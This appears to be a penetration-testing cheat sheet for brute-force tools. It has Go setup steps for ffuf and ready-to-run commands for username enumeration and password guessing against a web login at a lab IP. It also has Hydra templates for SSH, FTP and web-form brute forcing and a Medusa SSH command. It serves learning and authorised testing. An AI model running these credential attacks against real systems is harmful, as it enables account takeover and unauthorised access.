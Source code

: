 # 🥊 Bruteforce tools

## `Ffuf`

### Installation

{% embed url="https://github.com/ffuf/ffuf" %}

{% hint style="info" %}
_<mark style="color:blue;">Make sure you have</mark>_ _<mark style="color:blue;">**go**</mark>_ _<mark style="color:blue;">version</mark>_ _<mark style="color:blue;">**1.13 or greater**</mark><mark style="color:blue;">.</mark>_
{% endhint %}

### Go | Update

```bash
# Remove the golang-go package

sudo apt-get remove golang-go

# Remove the golang-go dependencies

sudo apt-get remove --auto-remove golang-go

# Uninstall the existing Go package

sudo rm -rvf /usr/local/go

# Install the new Go version

wget https://dl.google.com/go/go1.14.linux-amd64.tar.gz

# Extract the archive file

sudo tar -xvf go1.14.linux-amd64.tar.gz

sudo mv go /usr/local

export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH

# Reload environment variables

source ~/.profile

# Verify Go version

go version
```

### Usage

#### Usernames enumeration

```bash
ffuf -w /usr/share/wordlists/usernames.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/signup -mr "username already exists"
```

#### Bruteforce Passwords

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/best.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/login -fc 200
```

## `Hydra`

{% hint style="info" %}
<mark style="color:blue;">**Bruteforce**</mark> <mark style="color:blue;">tool.</mark>
{% endhint %}

### Installation

```bash
# usually installed by default on kali/parrot
apt install hydra
```

### Flags

```bash
-l <user> # specifies the user
-P <path_passwd> # takes a path to a file which contains a list of password
-t <int> # specifies the number of threads used during the attack
-f # exit when a login/pass pair is found (-M: -f per host, -F global)
-s <PORT> # specifies service port
-V # verbose 
```

### Usage

#### SSH

```bash
hydra -l <user_name> -P <wordlist>.txt ssh://<ip_victim>
```

#### FTP

```bash
hydra -l user -P <wordlist>.txt ftp://<ip_victim>
```

#### WEB POST

```bash
hydra -l <username> -P <wordlist> <ip_victim> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

## `MEDUSA`

### Bruteforce SSH

```bash
medusa -h IP -U users.txt -P passwords.txt -M ssh IP
```

